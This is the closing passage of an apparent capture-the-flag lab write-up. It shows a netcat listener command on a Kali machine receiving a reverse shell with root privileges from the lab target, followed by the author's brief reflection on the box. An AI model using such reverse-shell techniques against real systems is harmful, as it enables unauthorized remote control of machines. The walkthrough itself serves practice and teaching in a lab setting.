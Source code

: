 Looking back at my Netcat listener we got a connection back!

```
root@kali-[~]nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.56] 42940
/bin/sh: 0: can't access tty; job control turned off
# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

Overall was a pretty nice box. I always tend to enjoy the boxes that deviate away from an easy pwn using Metasploit so it was fun pwning this box.

